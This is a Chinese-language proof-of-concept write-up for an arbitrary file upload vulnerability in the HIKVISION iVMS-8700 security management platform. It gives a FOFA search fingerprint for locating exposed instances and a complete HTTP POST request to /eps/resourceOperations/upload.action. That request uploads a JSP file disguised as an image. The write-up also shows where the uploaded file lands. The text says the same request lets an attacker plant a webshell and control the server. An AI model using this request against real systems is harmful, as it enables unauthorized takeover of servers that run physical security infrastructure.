 # HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传漏洞

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

HIKVISION iVMS-8700综合安防管理平台

## FOFA

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704111156427](D:\TMP_FILE\awesome-poc\iot\images\image-20230704111156427.png)

发送请求包上传文件

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径

![image-20230704111213114](D:\TMP_FILE\awesome-poc\iot\images\image-20230704111213114.png)

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

![image-20230704111225074](D:\TMP_FILE\awesome-poc\iot\images\image-20230704111225074.png)